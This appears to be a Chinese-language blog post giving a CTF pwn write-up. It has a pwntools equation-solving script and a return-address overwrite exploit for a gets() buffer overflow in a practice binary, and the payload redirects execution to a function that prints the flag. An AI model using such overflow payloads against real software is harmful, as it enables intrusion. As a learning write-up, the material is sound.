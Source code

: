 ```yaml
---
layout: post
title:  "Pwn CTF Writeup"
date:   2021-01-29 14:41:44 +0800
tags: CTF Writeup
color: rgb(255,90,90)
cover: '/assets/pwn-ctf/cover.png'
subtitle: 'Pwn-CTF Writeup'
---
```

**Intro：**
  : 一個高中生的CTF練習 剛好是我想要學習的PWN所以就跟著高中生一起嗨ＯＵＯ
  : 由於過了一段時間，所以題目順序就～隨性

**Problems：**
- TOC
{:toc}

# Math Teacher
[**Source File**](/assets/pwn-ctf/math-teacher/source){:target="_blank"}

## Discription
{: .no_toc}
- 這題簡單的考你會不會用 pwntools 
- 問100題二元一次方程式，解完就有FLAG

## Solution
{: .no_toc}
- 用克拉馬公式

``` python
def cal():
    f1 = r.recvline()
    f2 = r.recvline()

    print("Function 1: ", f1)
    print("Function 2: ", f2)

    a1 = int(f1[:f1.find(b'x')-3])
    b1 = int(f1[f1.find(b'+')+1:f1.find(b'y')-3])
    c1 = int(f1[f1.find(b'=')+1:])

    a2 = int(f2[:f2.find(b'x')-3])
    b2 = int(f2[f2.find(b'+')+1:f2.find(b'y')-3])
    c2 = int(f2[f2.find(b'=')+1:])

    delta = a1*b2-a2*b1

    if delta == 0:
        x = 0
        y = int(c1/b1)
    else:
        x = int((c1*b2-b1*c2)/delta)
        y = int((a1*c2-c1*a2)/delta)

    r.recvuntil('= ')
    r.sendline(str(x))
    r.recvuntil('= ')
    r.sendline(str(y))
```

# Go Home
[**Source File**](/assets/pwn-ctf/go-home/source){:target="_blank"}

## Discription 
{: .no_toc}
- 先是問你有沒有 Home

  ```shell
  Billy want to go home now.
  Do you know the address of his house ?
  ```
- SourceFile 又有給 Home

  ``` c
  void Billyshouse(){
    system("cat /home/ctf/flag");
  }
  ```

- `<main>` 的 stack長度 `<` gets 能輸入的長度
    ![](/assets/pwn-ctf/go-home/discription-0.png)

\* 0x20 < $$\infty$$ (gets 輸入長度沒有限制)
{: .notify}

## Solution
{: .no_toc}
- 簡單的 **Bof** 蓋過 `<main>` 的 `ret`

這邊有兩個要注意的地方
{: .notify}
  1. ubuntu 20 以後的 stack 對齊
    : 就是蓋過 `ret` 之後跳進 function 裡面的時候stack結尾必須是0x0不能是0x8
  2. `gets` 預設從 `$rbp - 0x20` 開始跳
    : 也就是 ```OFFSET = 0x20 + 0x8```{: .language-ruby}

## Payload
{: .no_toc}
- 1.要跳過的方法有很多，最簡單的就是不要跑 [**Function Prologue**](https://en.wikipedia.org/wiki/Function_prologue) 讓 stack 多了 `0x8` 就好
- 直接跳到 `0x4006ca` 就好

```python
payload = b'A'*0x28 + p64(exe.symbols['Billyshouse']+0x4)
```

# To be done...